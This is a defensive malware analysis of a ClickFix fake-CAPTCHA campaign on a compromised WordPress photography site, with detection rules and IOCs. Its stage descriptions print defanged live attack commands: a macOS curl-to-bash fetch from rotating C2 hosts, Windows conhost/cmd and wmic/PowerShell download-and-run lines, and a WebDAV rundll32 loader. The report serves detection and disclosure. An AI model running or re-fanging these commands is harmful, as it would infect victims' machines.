


# ClickFix / Fake-CAPTCHA Analysis — ironischlederphotography[.]com

**Timeframe:** mid-2026, with live re-checks over the following weeks
**Technique family:** ClickFix (fake CAPTCHA → clipboard command) delivered via **EtherHiding** (payload staged in BSC smart contracts). Consistent with **UNC5142 / CLEARFAKE**-style clusters; final stage uses WebDAV + `rundll32` LOLBin execution.
**Status (later re-check):** the site was **still serving the lure** — see the live captures below.

> This is the technical/detection companion to the narrative writeup (`ClickFix-EtherHiding-Awareness-Article.md`). All artifacts were collected **read-only** and decoded **statically** (never `eval`). Nothing was executed. **IOCs and commands below are defanged** (`example[.]com`) — do not re-fang, and never paste any command into a shell.

---

## Delivery vector
- **Compromised WordPress site** (`Server: Apache`, `X-Powered-By: W3 Total Cache`, Elementor/Contact-Form-7 plugins) behind Cloudflare. The legitimate photography content still renders — the attacker **injected a single line into `<head>`**, before the WP scripts:
  ```html
  <script src="data:text/javascript;base64,<obfuscated stage-1>"></script>
  ```
  Hiding the loader in a `data:` URI (not an external `.js`) defeats URL-blocklist and external-script scanners.

### Lure (captured live)

The site was **still serving** the fake-CAPTCHA overlay in July 2026 — genuine address bar (`ironischlederphotography[.]com`), the real photography page behind the overlay. The "reCAPTCHA Verification ID" is **randomised per page-load** (`6840554` vs `3338074` across two visits) — cosmetic, purely to look legitimate.

![Live ClickFix lure on ironischlederphotography[.]com — visit 1](screenshots/live-lure-ironischleder-1.png)



macOS variant of the same kit (defanged reconstruction — overlay identical; only the "steps" and the planted command differ, Terminal + `curl | bash` instead of Run + `wmic`/PowerShell):



**Live re-detonation (isolated VM, non-attributable egress).** Spoofing macOS
(`navigator.userAgent` + `navigator.platform` + `userAgentData.platform`) and clicking the
checkbox planted the mac payload live — confirming the site is still active **and that the
macOS C2 has rotated**. The clipboard command now fetches from
`44tnfuwf.prozhedownload[.]net` (was `enfejwin[.]com` in June); structure otherwise unchanged:

```
/bin/bash -c "$(curl -A 'Mac OS X 10_15_7' -fsSL '44tnfuwf.prozhedownload[.]net/?ublib=<uuid>')"; echo "BotGuard: Answer the protector challenge. Ref: 73282"
```

Same `-A 'Mac OS X 10_15_7'` UA, same `?ublib=<uuid>` per-victim param, same `BotGuard … Ref: 73282`
decoy — an actively-maintained operation rotating only its C2 host.

![Live macOS ClickFix lure on ironischlederphotography[.]com, with the silently-planted clipboard command revealed below — Terminal / ⌘+V steps confirm the macOS branch](screenshots/live-macos-modal-annotated.png)

**Live Windows re-detonation — the Windows delivery technique has been REWORKED, not just re-hosted.** Spoofing Windows served the Windows branch; the clipboard command is now:

```
conhost.exe --headless --inheritcursor --width 80 --height 30 -- cmd /v:on /c "set a=pu&set b=shd&set c=run&set d=dll32&for %x in (!a!!b!) do @%x \\oroavju.hi-lo[.]bet@SSL@443\<share-guid> & !c!!d! pf.ch,#1"
```

Decoded, and what changed vs the June sample:
- **Launcher:** `wmic process call create` → **`conhost.exe --headless`** — runs the shell with no window (a newer, less-flagged LOLBin than the old `powershell -WI 1`).
- **jsDelivr / PowerShell stage is GONE.** June fetched a 218-byte PS downloader from `cdn.jsdelivr[.]net/gh/arinao7/…` via `iex(irm …)`, which *then* did the WebDAV step. The live command **goes straight to WebDAV + `rundll32`** — the jsDelivr/GitHub hop is no longer in the chain.
- **String obfuscation (`cmd /v:on` delayed expansion):** `!a!!b!` = `pu`+`shd` = **`pushd`**, `!c!!d!` = `run`+`dll32` = **`rundll32`**; the `for %x in (pushd) do @%x …` indirection also keeps `pushd` off the command line as a literal token. Literal-string rules for `pushd`/`rundll32` won't match.
- **New WebDAV C2:** `oroavju.hi-lo[.]bet` (base `hi-lo[.]bet`), was `c868.mabanishimi[.]xyz`. Still `@SSL@443` (WebDAV over 443). DLL unchanged: `rundll32 pf.ch,#1`; new share GUID `3441779a-b716-494b-979a-a76899c0ab2c`.

**Detection impact:** the June-era Windows hunts miss this build — `wmic process call create` (gone), `iex(irm`/jsDelivr download cradle (gone), literal `pushd`/`rundll32` (obfuscated). Add indicators for this build — **`conhost.exe --headless … cmd /v:on`**, a shell mounting **`\\*@SSL@443\*`** (WebDAV), and **`rundll32 … pf.ch,#1`** — **and keep the June-variant hunts (`wmic`/`iex(irm`) in place too; both builds are in play.**

![Live Windows ClickFix lure on ironischlederphotography[.]com, with the silently-planted Variant B clipboard command revealed below (conhost --headless → direct WebDAV)](screenshots/live-windows-modal-annotated.png)

## Execution chain (6 stages)

| Stage | Location | What it does |
|---|---|---|
| **1 — Loader** | inline `data:` URI in page `<head>` | `obfuscator.io`-obfuscated. `eth_call` (read) to **BSC testnet** contract `0xA1decFB75C8C0CA28C10517ce56B710baf727d2e` selector `0x6d4ce63c`, decodes the ABI string, `eval(atob(...))`. |
| **2 — Gate/router** | on-chain (same contract) | **Anti-analysis:** `isHeadless()` (webdriver/HeadlessChrome/Puppeteer/Playwright/zero-window → bail `"stop watching us :)"`), `isLocalhost()` (localhost / RFC1918 → bail). Then **OS-routes**: Windows→contract `0x46790e2Ac7F3CA5a7D1bfCe312d11E91d23383Ff`, macOS→`0x68DcE15C1002a2689E19D33A3aE509DD1fEb11A5`. Linux/other = nothing. |
| **3 — Lure UI** | on-chain (per-OS contracts) | Builds a full-screen fake **"I'm not a robot / Verification Steps"** reCAPTCHA overlay (base64 HTML+CSS). Fingerprints victim IP via `ip-info.ff.avast[.]com/v2/info`, stores `cjs_id` cookie. Reports infection ("goal reached") to contract `0xf4a32588b50a59a82fbA148d436081A48d80832A`. A nested obfuscated blob writes the malicious command to the clipboard (`navigator.clipboard.writeText`). |
| **4 — Clipboard command** | victim clipboard (social-engineered paste) | See per-OS commands below. ClickFix instructions: **Win+R → Ctrl+V → Enter**. |
| **5 — Downloader** | `cdn.jsdelivr[.]net/gh/arinao7/6e91d58f-acdf/key` (jsDelivr mirror of GitHub) | 218-byte PowerShell. WMI-spawns hidden process. *(Variant A only — dropped in Variant B.)* |
| **6 — Payload exec** | WebDAV `\\c868.mabanishimi[.]xyz@SSL\...` | Mounts remote WebDAV share over HTTPS, runs `rundll32 pf.ch,#1` — DLL executed directly from remote share. |

### Stage-4 clipboard commands (defanged — do not run)

**Windows — Variant A (June):**
```
wmic process call create "powershell -WI 1 -nop -c iex(irm cdn.jsdelivr[.]net/gh/arinao7/6e91d58f-acdf/key)"
```
- `wmic process call create` → process parented under **WmiPrvSE.exe**, not the pasting shell (breaks parent/child detection).
- `-WI 1` = WindowStyle Hidden, `-nop` = NoProfile, `iex(irm …)` = download-and-run.
- Stage-4 hosted on **jsDelivr** (trusted CDN proxying GitHub repo `arinao7/6e91d58f-acdf`) → bypasses domain reputation.

**Windows — Variant B (July):** see the `conhost.exe --headless … cmd /v:on` command above — no jsDelivr/PowerShell hop; straight to WebDAV, `pushd`/`rundll32` rebuilt via delayed expansion.

**macOS:**
```
/bin/bash -c "$(curl -A 'Mac OS X 10_15_7' -fsSL '<victim-id>.enfejwin[.]com/?ublib=<uuid>')"; echo "BotGuard: Answer the protector challenge. Ref: 73282"
```
- curl-pipe-to-bash via command substitution; victim id as subdomain + query param (per-victim tracking/gating). C2 **rotates** — `enfejwin[.]com` (June) → `prozhedownload[.]net` (live July).

### Stage-5 PowerShell (Variant A — retrieved from jsDelivr/GitHub, defanged)
```powershell
$si=([wmiclass]'Win32_ProcessStartup').CreateInstance();$si.ShowWindow=0;
([wmiclass]'Win32_Process').Create('cmd /c pushd \\c868.mabanishimi[.]xyz@SSL\<share-guid> & rundll32 pf.ch,#1',$null,$si)
```
- `@SSL` UNC → **WebDAV over HTTPS (443)**; `pushd` maps it to a drive. `rundll32 pf.ch,#1` runs the remote DLL (fileless-style, LOLBin). Second WMI spawn = another detection-evasion hop.

---

## Why this is hard to take down / detect
- **EtherHiding**: stages 2–3 live in immutable BSC smart contracts — no domain/host to sinkhole; attacker can swap stage-4 by updating contract state.
- **Trusted-infra laundering**: jsDelivr + GitHub (stage-4), Cloudflare (front), Avast IP-info (fingerprint).
- **Anti-analysis**: headless + localhost + non-Windows/Mac gating; only a real Win/Mac browser ever sees a payload.
- **Living-off-the-land**: `wmic`, `powershell`, `conhost`, `rundll32`, WebDAV — no dropped EXE.

---

## Indicators of Compromise (IOCs)

> Defanged for safe sharing. `ironischlederphotography[.]com` is an **innocent, compromised** legitimate site — listed so others can recognize and help remediate it, not as a malicious actor.

**Domains / URLs**
- `ironischlederphotography[.]com` — compromised WordPress host serving the injected loader (victim, not attacker)
- **Windows delivery — TWO observed variants; block & hunt BOTH (the operator can serve either build, and older infra can resurface):**
  - *Variant A (June):* downloader `cdn.jsdelivr[.]net/gh/arinao7/6e91d58f-acdf/key` (and `raw.githubusercontent[.]com/arinao7/6e91d58f-acdf/main/key`); launcher `wmic process call create` → `powershell iex(irm …)`; WebDAV C2 `c868.mabanishimi[.]xyz`.
  - *Variant B (live July):* no jsDelivr/PowerShell — launcher `conhost.exe --headless` → direct WebDAV; WebDAV C2 `oroavju.hi-lo[.]bet` (base `hi-lo[.]bet`); share GUID `3441779a-b716-494b-979a-a76899c0ab2c`.
  - *Common to both:* final DLL `pf.ch` (ordinal `#1`); WebDAV over `@SSL` (443); GitHub repo `arinao7/6e91d58f-acdf` — **report for takedown**.
- **macOS C2 — both observed, block BOTH:** `prozhedownload[.]net` (`*.prozhedownload[.]net`, live July, e.g. `44tnfuwf.prozhedownload[.]net`) and `enfejwin[.]com` (`*.enfejwin[.]com`, June). Host rotates — durable pattern: `<8-char>.<host>/?ublib=<uuid>`, UA `Mac OS X 10_15_7`.
- `ip-info.ff.avast[.]com` — victim IP fingerprinting (abused, legit service)

**GitHub**
- user `arinao7`, repo `arinao7/6e91d58f-acdf`, file `key` — report for takedown

**BSC (testnet) contracts — `bsc-testnet-rpc.publicnode[.]com`, selector `0x6d4ce63c`**
- `0xA1decFB75C8C0CA28C10517ce56B710baf727d2e` — stage-1 router
- `0x46790e2Ac7F3CA5a7D1bfCe312d11E91d23383Ff` — Windows stage-3
- `0x68DcE15C1002a2689E19D33A3aE509DD1fEb11A5` — macOS stage-3
- `0xf4a32588b50a59a82fbA148d436081A48d80832A` — infection ("goal reached") tracker

**Host artifacts (Windows)**
- Cookie `cjs_id` in browser
- `wmic.exe` spawning `powershell.exe` (parent WmiPrvSE.exe) — Variant A; **or** `conhost.exe --headless … cmd /v:on` spawning a shell — Variant B
- `powershell -WI 1 -nop -c iex(irm …)` cmdline (Variant A)
- WebDAV connection to `*@SSL` UNC; `rundll32.exe pf.ch,#1`; outbound 443 to `c868.mabanishimi[.]xyz` (A) or `oroavju.hi-lo[.]bet` (B)

---

## Hunting / detection ideas (EDR / SIEM)
Hunt **both** delivery variants — the operator serves either build:
- **Variant B (conhost):** `conhost.exe` with `--headless` spawning `cmd` (esp. `cmd /v:on` delayed-expansion / `set`-built tokens).
- **Variant A (wmic/PS):** `wmic process call create` with `powershell` in cmdline; `powershell.exe` cmdline containing `iex(irm` / `Invoke-RestMethod` to `jsdelivr[.]net` / raw GitHub.
- **Both builds:** any process mounting a WebDAV UNC over SSL — `\\*@SSL@443\*` / `\\*@SSL\*` (`net use` / `pushd` to a `@SSL` host). Match the UNC / `@SSL` pattern, **not** the literal verb — delayed expansion obfuscates `pushd`/`rundll32`.
- **Both builds:** `rundll32.exe` executing `pf.ch,#1` (DLL `pf.ch` + ordinal `#1` is durable across builds).
- Process parented by `WmiPrvSE.exe` launching a shell (Variant A only — Variant B does not use WMI).
- Browser process making POST to `*.publicnode[.]com` with body `"method":"eth_call"` (EtherHiding C2 beaconing from a browser is highly anomalous).
- Clipboard-set events immediately followed by Run-dialog (`explorer.exe`→`cmd`/`powershell`) execution.

## Recommended actions
1. **Block** all domains/contracts above at proxy/DNS/EDR; submit jsDelivr abuse + GitHub takedown for `arinao7/6e91d58f-acdf`.
2. **Hunt** the cmdline/parent patterns across the fleet (esp. anyone who visited the site — pivot identity + web-proxy logs).
3. **User comms**: warn that any "press Win+R / open Terminal, paste, Enter" CAPTCHA is an attack.
4. If any host matches: isolate, kill the WebDAV session, collect `pf.ch`, rotate creds of the affected user.

## Platform hardening (remove the lure's key step)

**Windows — disable Win+R (GPO):** the lure's flow is `Win+R → Ctrl+V → Enter`.
- GPO: `User Configuration → Administrative Templates → Start Menu and Taskbar → "Remove Run menu from Start Menu" → Enabled`.
- Registry equivalent: `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` → DWORD `NoRun = 1` (push via GPO Preferences / Intune to non-technical OUs; leave IT/dev groups unaffected).
- Pair with execution-blocking layers:
  - ASR rule **"Block process creations originating from PSExec and WMI commands"** (`d1e49aac-8f56-4280-b9ba-993a6d77406c`) — blocks the `wmic process call create` primitive used here.
  - PowerShell Constrained Language Mode + ScriptBlock logging + AMSI.
  - Block outbound WebDAV (WebClient) to non-corporate hosts; alert on WebClient start.

**macOS — restrict the Terminal (closest analog):** no single shortcut toggle, and **Gatekeeper/notarization do NOT stop `curl | bash`** (interpreted scripts aren't quarantined apps). Lever via MDM (Jamf/Intune/Kandji/Mosyle):
- Block `Terminal.app` / `iTerm.app` launch for non-technical groups — Jamf **Restricted Software** (kill-on-launch + message) or supervised "Allowed apps" restriction.
- Binary allow-listing (**Santa** lockdown mode — open-source macOS binary authorization, ex-Google, now North Pole Security: <https://santa.dev> , <https://github.com/northpolesec/santa> ; authorizes binaries, so it covers downstream stages, not the `curl|bash` one-liner itself).
- Standard (non-admin) accounts; PPPC/TCC profiles so shells can't silently reach Full Disk / protected data.
- EDR rule: Terminal/shell spawning `curl`/`wget` piped to `bash`/`sh`/`zsh`, or `bash -c "$(curl …)"`.

**Both:** DNS/web filtering on the C2 + fetch domains (IOCs above); user-awareness training is the highest-leverage control.

---

## Responsible disclosure

The compromised photography website and its owner are **victims** of this campaign. The appropriate response is to help them clean and harden their site (and reset credentials), and to report the attacker-controlled GitHub repository and CDN path for takedown — not to treat the innocent site as the adversary.
